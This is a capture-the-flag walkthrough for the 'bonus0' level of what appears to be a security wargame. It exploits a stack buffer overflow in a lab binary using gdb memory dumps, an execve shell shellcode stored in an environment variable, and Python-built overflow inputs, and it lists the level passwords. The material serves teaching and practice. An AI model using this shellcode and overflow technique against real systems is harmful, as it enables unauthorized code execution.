 # Bonus0 -

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus0 | `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728` |
| bonus1 | `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute the binary

```shell
~/bonus0 aaa
  -
  (stdin) a
  -
  (stdin) b
  > a b
```

There is 2 prompts, and it concatenates them.

Lets debug the binary

```shell
(gdb) info functions
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```

See our assembly interpretation in [source file](../source.c)

```shell
./bonus0
  -
  (stdin) AAAAAAAAAAAAAAAAAAAA # 20 chars
  -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBBB
  Segmentation fault (core dumped)

./bonus0
   -
  (stdin) AAAAAAAAAAAAAAAAAAA # 19 chars
   -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBB
```

```shell
gdb-peda$ b*main+28 # before puts
gdb-peda$ run
  (stdin) AAAAAAAAAAAAAAAAAAA # 19 chars
  (stdin) BBBBBBBBBBBBBBBBBBB # 19 chars
gdb-peda$ x/100x $esp+0x16
x/100x $esp+0x16
  0xbffff626:   [ 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
  0xbffff62e:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
  0xbffff636:     0x41    0x41    0x41    0x20    0x42    0x42    0x42    0x42
  0xbffff63e:     0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
  0xbffff646:     0x42    0x42    0x42    0x42    0x42    0x42    0x42 ]  0x00
  0xbffff64e:     0xfd    0xb7  { 0xd0    0x85    0x04    0x08 }  0x00    0x00
```

There is an offset at 23 chars after second prompt.

Finally we can get the pass !

```shell
$ whoami
> bonus1
$ cat /home/user/bonus0/.pass
>
```

```
b*main+18
  (stdin) ABCDEFGHIJKLMNOPQRSTUVWXYZ (A-T 20)
  (stdin) abcdefghijklmnopqrstuvwxyz
run
x/50x $esp+0x16
  0xbffff616:[0x44434241	0x48474645	0x4c4b4a49	0x504f4e4d
  0xbffff626:	0x54535251][0x64636261	0x68676665  0x6c6b6a69
  0xbffff636:	0x706f6e6d	0x74737271][0xb7fd0ff4][0x63626120
  0xbffff646:	0x67666564	0x6b6a6968	0x6f6e6d6c	0x73727170]
  0xbffff656:	0xfd0ff474	0xc85800b7	0x0000b7fd	0xf61c0000

# [A-T][a-t][0xb7fd0ff4][a-c]' '[d-s]
# 20    20  4            3    1  16

continue
EIP: 0x6d6c6b6a ('jklm')
Invalid $PC address: 0x6d6c6b6a
Stopped reason: SIGSEGV
0x6d6c6b6a in ?? ()
```

```
export SHELLCODE=$(python -c 'print "\x90" * 0xff + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

```shell
gdb-peda$ searchmem SHELLCODE
  [stack] : 0xbffff864 ("SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀")
gdb-peda$ p 0xbffff864 + 10 # (length of "SHELLCODE=")
$1 = 0xbffff86e


ABCDEFGHIJKLMNOPQRSTUVWXYZ
abcdefghi\x6e\xf8\xff\xbf

python -c 'print "A" * 4095 + "\n" + "abcdefghi" + "\x6e\xf8\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10

python -c 'print "A" * 4095 + "\n" + "abcdefghi" + "\x76\xf8\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10
```

```shell
cat /tmp/exploit10 - | ~/bonus0
   -
   -
  > AAAAAAAAAAAAAAAAAAAAabcdefghiwnopqrst abcdefghiwnopqrst
  $ whoami
  > bonus1
  $ cat /home/user/bonus1/.pass
  > cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

---

## Sources

### Hack

- [Buffer overflow et variable d'environnement](https://www.hacktion.be/buffer-overflow-variable-environnement/)
- [Buffer overflow works in gdb but not without it](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it)

### C

- [Man puts](https://linux.die.net/man/3/puts)
- [Man read](https://linux.die.net/man/3/read)
- [Man strchr](https://linux.die.net/man/3/strchr)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man strncpy](https://linux.die.net/man/3/strncpy)
- [Man strcat](https://linux.die.net/man/3/strcat)
